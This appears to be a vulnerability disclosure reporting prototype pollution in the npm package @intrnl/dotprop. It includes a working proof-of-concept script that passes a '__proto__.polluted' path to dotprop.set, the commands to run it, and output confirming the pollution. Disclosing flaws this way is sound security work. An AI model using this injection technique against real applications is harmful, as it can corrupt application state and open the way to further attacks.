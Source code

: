# Description

`@intrnl/dotprop` is vulnerable to `Prototype Pollution`.

# Proof of Concept

1. Create the following PoC file:

```
// poc.js
var dotprop = require("@intrnl/dotprop")
var obj = {}
console.log("Before : " + {}.polluted);
dotprop.set(obj, '__proto__.polluted', 'Yes! Its Polluted');
console.log("After : " + {}.polluted);
```


2. Execute the following commands in terminal:

```
npm i @intrnl/dotprop # Install affected module
node poc.js #  Run the PoC
```

3. Check the Output:
```
Before : undefined
After : Yes! Its Polluted
```

